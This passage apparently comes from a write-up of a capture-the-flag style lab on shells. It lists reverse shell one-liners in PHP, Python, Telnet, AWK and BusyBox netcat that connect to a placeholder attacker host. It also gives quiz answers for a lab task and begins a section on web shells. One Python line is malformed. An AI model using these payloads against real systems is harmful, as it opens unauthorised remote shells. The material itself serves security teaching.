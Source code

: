 For PHP:
- Exec function reverse shell: `php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("sh <&3 >&3 2>&3");'` - creates a socket connection to the attacker's IP on a given port, and uses `exec` to execute a shell and redirect standard input/output
- Shell_exec reverse shell: `php -r '$sock=fsockopen("ATTACKER_IP",PORT);shell_exec("sh <&3 >&3 2>&3");'` - similar to previous command but uses the `shell_exec` function
- System reverse shell: `php -r '$sock=fsockopen("ATTACKER_IP",PORT);system("sh <&3 >&3 2>&3");'` - employs the `system` function to set up the reverse shell.
- Passthru reverse shell: `php -r '$sock=fsockopen("ATTACKER_IP",PORT);passthru("sh <&3 >&3 2>&3");'` - uses `passthru` to execute a command and send raw output back to the browser, which is useful when working with binary data
- Popen reverse shell: `php -r '$sock=fsockopen("ATTACKER_IP",PORT);popen("sh <&3 >&3 2>&3", "r");'` - uses `popen` to open a process file pointer, letting the shell be executed

For Python:
- Exporting environment variables: `export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'` - sets the remote host and port as environment variables, creates a socket, and duplicates the socket file descriptor for standard input/output
- The subprocess module: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'` - uses the `subprocess` module to spawn a shell and set up a similar environment as the previous
- Short reverse shell: `python -c import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",PORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'` - crates a socket, connects to attacker, and redirects standard input, output, error to the socket with `os.dup2()`.

Other utilities:
- Telnet shell: `TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP PORT 0<$TF | sh 1>$TF` - creates a named pipe and connects to the attacker via Telnet on the given IP and port.
- AWK shell: `awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/PORT"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null` - this uses AWK's built-in TCP capabilities to connect to the attacking machine, read commands from the attacker, and executes them. The results are sent back over the same TCP connection.
- BusyBox shell: `busybox nc ATTACKER_IP PORT -e sh` - uses netcat to connect to the attacker at the IP and port. Once executed, it runs `/bin/sh` and exposes the command line to the attacker.

**[Task 6, Question 1] Which Python module is commonly used for managing shell commands and establishing reverse shell connections in security assessments?** - `subprocess`

**[Task 6, Question 2] What shell payload method in a common scripting language uses the `exec`, `shell_exec`, `system`, `passthru`, and `popen` functions to execute commands remotely through a TCP connection?** - PHP

**[Task 6, Question 3] Which scripting language can use a reverse shell by exporting environment variables and creating a socket connection?** - Python

## [Task 7] Web Shell

A web shell is a script written in a language supported by a compromised web server that executes commands via the web server itself. It's usually a file containing the code that executes commands and handles files, and can be hidden in a compromisd web app or service, making it hard to detect. This can be very popular among attackers.
